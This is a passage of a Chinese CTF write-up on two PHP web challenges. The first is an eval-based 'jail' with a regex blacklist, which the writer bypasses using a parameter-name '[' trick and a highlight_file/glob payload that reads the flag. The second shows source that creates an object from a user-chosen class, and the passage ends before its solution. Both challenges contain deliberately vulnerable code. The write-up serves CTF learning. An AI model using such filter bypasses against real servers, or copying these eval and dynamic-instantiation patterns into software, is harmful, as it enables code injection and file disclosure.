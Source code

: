 

## [Week3] ez_php_jail  【复现】

考点：`敏感函数`

后悔当时没看了，好像挺简单的。题目源码

::: details
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("hint.html");
$Jail = $_GET['Jail_by.Happy'];

if($Jail == null) die("Do You Like My Jail?");

function Like_Jail($var) {
    if (preg_match('/(`|\$|a|c|s|require|include)/i', $var)) {
        return false;
    }
    return true;
}

if (Like_Jail($Jail)) {
    eval($Jail);
    echo "Yes! you escaped from the jail! LOL!";
} else {
    echo "You will Jail in your life!";
}
echo "\n";
```
:::

题目GET接收参数`$Jail = $_GET['Jail_by.Happy'];`，这个参数名中同时含有`_``.`下划线和点，在php中，这两个同时出现，且下划线在前的时候，需要把下划线写成`[`左方括号，不然后端接收不到

在这题的源码里，有一个base64，解码是一个phpinfo()的页面，没什么用

在下面的eval函数里，过滤了反引号，美元符，a,c,s，require,include。官方wp使用highlight_file函数和glob()函数，扫描并高亮显示flag

::: tip 函数作用
highlight_file  高亮显示文件内容
glob  扫描路径文件，返回一个数组
:::

`payload：?Jail[by.Happy=highlight_file(glob('/fl?g')[0])`

## [Week4] flag直接读取不就行了？

考点：`原生类`

源码

```php
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
    echo($f . '<br>');
}
```
